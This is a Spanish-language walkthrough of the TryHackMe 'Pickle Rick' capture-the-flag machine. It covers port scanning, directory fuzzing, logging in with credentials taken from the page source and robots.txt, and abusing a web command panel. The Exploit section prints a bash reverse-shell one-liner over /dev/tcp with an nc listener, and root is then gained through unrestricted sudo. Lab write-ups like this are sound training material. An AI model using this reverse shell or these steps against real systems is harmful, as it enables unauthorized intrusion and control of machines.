# 🥒 Pickle Rick

[Pickle Rick](https://tryhackme.com/r/room/picklerick) es un nivel facil de la plataforma TryHackMe de nivel fácil. En esta máquina se tocan temas de WebHacking.

## Reconocimiento <a href="#reconocimiento" id="reconocimiento"></a>

Primero hacemos un escaneo de puertos con **Nmap**.

```bash
nmap -p- --open --min-rate 5000 -n -Pn -vvv 10.10.147.169 -oN escaneo 
```

* **-p-**: Indica que escanee todos los puertos , desde el 1 hasta el 65535. Sin este parámetro solo se escanea los 1000 puertos más comunes.
* **–open**: Solo escanear puertos abiertos.
* **-sS**: **SYN Scan**, también conocido como _half-open scan_, este no completa la conexión con el destino, esto hace el escaneo un poco más rápido y difícil de detectar.
* **-sC**: Activa la ejecución de scripts de predeterminados Nmap Scripting Engine (NSE).
* **-sV**: Encuentra la versión de servicio que corre en cada puerto.
* **–min-rate**: Fija la cantidad mínima de paquetes para enviar por segundo.
* **-n**: No resolución DNS.
* **-Pn**: **Null Ping**. Se usa por si el servidor esta bloqueando trazas **ICMP**.
* **-vvv**: Triple verbose. Hace que imprima la información mientras la va encontrando. Se puede modificar la cantidad de “v”, el máximo es 3.
* **-oN**: Se utiliza para guardar los resultados del escaneo en un archivo de salida en **formato normal** (normal output). Siempre va acompañado del nombre del archivo donde se guardara.

<figure><figcaption></figcaption></figure>

Este escaneo nos muestra que la máquina tiene abiertos los puertos: **80(HTTP)** y **22(SSH)**.

Entramos a la página y hacemos un poco de exploración.

<figure><figcaption></figcaption></figure>

La página es muy sencilla por lo que nos brincamos directo a inspeccionar el código fuente, ahí encontramos algo muy interesante **¡un usuario!**

<figure><figcaption></figcaption></figure>

Una vez encontrado el usuario exploramos algunas rutas que siempre son de interes como `robots.txt` y `sitemaps.xml`. Al parecer no existe el archivo sitemaps pero dentro de robots encontramos un mensaje un poco extraño que guardaremos para después.

<figure><figcaption></figcaption></figure>

## Fuzzing <a href="#fuzzing" id="fuzzing"></a>

Para esta etapa usaremos gobuster, buscaremos subdominios interesantes y archivos con extensiones **.php**, .html y **.txt**

```bash
gobuster dir -u http://10.10.147.169 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><figcaption></figcaption></figure>

De los resultados más interesantes es el panel de **login**, en el cual intentamos ingresar utilizando el usuario `R1ckRul3s` y de contraseña `Wubbalubbadubdub`

<figure><figcaption></figcaption></figure>

**¡¡Funcionó!!**

Dentro del panel nos encontramos con un panell de comandos. Le ingresamos el comando `whoami` para probar si funciona.

<figure><figcaption></figcaption></figure>

## Exploit <a href="#exploit" id="exploit"></a>

Como se ve en la imagen, el comando funcionó. Ahora nos intentamos enviar una reverse shell para trabajar un poco más cómodos desde la terminal.

```bash
bash -c  "sh -i >& /dev/tcp/<IP Victima>/<puerto> 0>&1"
```

No olviden ponerse en escucha para poder recibir la reverse shell:

```bash
sudo nc -lnvp <puerto>
```

<figure><figcaption></figcaption></figure>

Una vez recibida la shell exploramos archivos y vemos los primeros archivos interesantes en la ruta de `/var/www/html`.

<figure><figcaption></figcaption></figure>

El primer archivo interesante es **Sup3rS3cretPickl3Ingred.txt** en el cual esta el primer ingrediente que estamos buscando. El segundo archivo es **clue.txt** en el cual solo nos indican que tenemos que explorar en los demás archivos.

El primer lugar en el que buscamos es en la ruta del usuario rick **/home/rick/** y justo encontramos lo que buscábamos: **second ingridient**.

<figure><figcaption></figcaption></figure>

## Escalada de privilegios <a href="#escalada-de-privilegios" id="escalada-de-privilegios"></a>

Para el tercer ingrediente buscaremos en la directorio `/root` pero primero necesitaremos escalar privilegios. Para esto ejecutamos el siguiente comando:

```bash
sudo -l
```

Este comando nos sirve para listar los comandos que el usuario puede ejecutar como **sudo**. Los resultados nos muestran que el usuario `www-data` tiene permisos para ejecutar cualquier comando como sudo.

<figure><figcaption></figcaption></figure>

Podemos escalar privilegios simplemente ejecutando el comando `sudo su`, después vamos a la ruta **/root** en donde se encuentra el tercer ingrediente.

<figure><figcaption></figcaption></figure>

Y con esto logramos todos los objetivos de la máquina.

¡Saludos!
